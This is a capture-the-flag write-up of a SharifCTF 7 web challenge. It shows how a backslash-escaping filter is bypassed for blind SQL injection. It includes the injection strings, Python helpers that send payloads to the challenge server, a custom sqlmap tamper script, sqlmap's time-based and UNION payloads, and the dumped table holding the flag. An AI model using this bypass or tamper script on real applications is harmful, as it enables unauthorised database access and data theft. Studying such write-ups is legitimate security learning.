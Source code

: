 ```yaml
---
layout: post
title: "SharifCTF 7: Tehran (pwn 400)"
author: f0rki
categories: writeup
tags: [cat/web, tool/sqlmap]
---
```


* **Category:** Web
* **Points:** 150
* **Description:**

>I'm a poor guy.  Please buy me the secret flag.
>  * username: poorguy
>  * password: withnomoney
>  Hint: SQL Injection
>  Hint 2: `$input_escaped = str_replace("'","\'",$user_input);`

## Write-up

So we could log in to a bookstore and "buy" books if we had the serial number.
We were pretty confident that it was a SQL injection but didn't get anything
reasonable out with our queries. Only with the second hint we finally realized
what the problem was.

```php
$input_escaped = str_replace("'","\'",$user_input);
```

Now this is the poor mans version of `addslashes` and can be easily bypassed by 
prepending a `\` to every `'`. This way
`\'` turns to `\\'`, which is an escaped backslash.

Problem with this is that it breaks all the strings in the queries. So we
cannot really use such `'strings'` in our query. This can be avoided by 
replacing literal strings with  something like`CHAR(0x73)+CHAR(0x74)+CHAR(0x72)+CHAR(0x69)+CHAR(0x6e)+CHAR(0x67)`.

So we could achieve a blind SQL injection with the `book_selection` parameter.
For example with the following input:

```sql
9780060878849\' or 1=1 and substring(@@version,1,1)=5 -- x
```

With the following python helpers I managed to extract a good deal of
information out of the database, but got bored/annoyed by extracting
tablesnames etc.

```python

def view_book(book_selection):
    log.debug("payload: " + repr(book_selection))
    res = s.post('http://ctf.sharif.edu:8086/index.php',
                 data={'book_selection': book_selection})
    return res


def inject(pl):
    pl = r"1234\' " + pl
    return view_book(pl)


def char_encode(s):
    r = []
    for c in s:
        r.append("CHAR(0x{:x})".format(ord(c)))
    return "+".join(r)


def test_query(q):
    pl = r"1234\' or 1=1 and " + q + " -- x"
    for s in re.findall(r"[^\\]'(.+?)'", pl):
        # print(s)
        ns = char_encode(s)
        pl = pl.replace("'" + s + "'", ns)
    return "<img src" in view_book(pl).text.split("\n")[-10]
```

I turned to `sqlmap` for help, as all this tedious stuff is already impelmented
there.  Of course it wouldn't detect anything useful because it doesn't know
about the custom filter function. So I wrote a custom tamper script to modify
the payload, which then worked out.

```python
#!/usr/bin/env python

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST


def dependencies():
    pass


def char_encode(s):
    r = []
    for c in s:
        r.append("CHAR(0x{:x})".format(ord(c)))
    return "+".join(r)


def tamper(payload, **kwargs):
    for s in re.findall(r"[^\\]'(.+?)'", payload):
        ns = char_encode(s)
        payload = payload.replace("'" + s + "'", ns)
    # assert "'" not in payload, "nope nope " + repr(payload)
    return r"\' or 1=1 " + payload
```

`sqlmap` identified the following injection points

```
Parameter: #1* ((custom) POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: book_selection= AND SLEEP(5)-- uejC

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: book_selection=-5036 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71767a7a71,0x486b646f6e65526d4679486976496a785a7975795778684a47784552524e4d6d4b4e72697070514a,0x7170
7a6a71),NULL-- SOWX
```

and dumped the table, which contained the flag

```
Database: book_shop
Table: books
[4 entries]
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
| book_id | book_name           | book_isbn     | is_premium | book_cover                           | book_serial                                 |
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
| 1       | Poor people         | 9780060878849 | 0          | .\\book covers\\poor people.png      | 123456                                      |
| 2       | Hacking for dummies | 9781118380932 | 0          | .\\book covers\\hack for dummies.jpg | 7890                                        |
| 3       | Secret flag         | 9788479536442 | 1          | .\\book covers\\secret flag book.jpg | SharifCTF{931b20ec7700a61e5d280888662757af} |
| 4       | Leading             | 9781473621640 | 0          | .\\book covers\\leading.jpg          | 239rj2if3r23re                              |
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
```
